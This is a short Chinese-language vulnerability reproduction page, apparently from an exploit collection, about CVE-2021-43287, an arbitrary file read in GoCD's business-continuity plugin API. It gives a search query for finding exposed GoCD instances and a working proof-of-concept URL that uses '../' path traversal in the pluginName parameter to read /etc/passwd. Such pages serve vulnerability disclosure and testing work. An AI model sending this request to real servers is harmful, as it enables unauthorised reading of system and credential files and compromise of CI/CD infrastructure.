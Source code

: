 # 

# GoCD plugin 任意文件读取漏洞 CVE-2021-43287

## 漏洞描述

*GoCD*，一个开源的持续集成和持续交付系统，可以在持续交付过程中执行编译，自动化测试，自动部署等等，与Jenkins类似。

GoCD plugin aip 参数中的 pluginName 参数存在任意文件读取漏洞，导致攻击者可以获取服务器中的任意敏感信息

## 漏洞影响

```
GoCD
```

## 网络测绘

```
title="Create a pipeline - Go"
```

## 漏洞复现

主页面

![](./images/202205251627593.png)

验证POC

```
/go/add-on/business-continuity/api/plugin?folderName=&pluginName=../../../etc/passwd
```

![](./images/202205251627131.png)

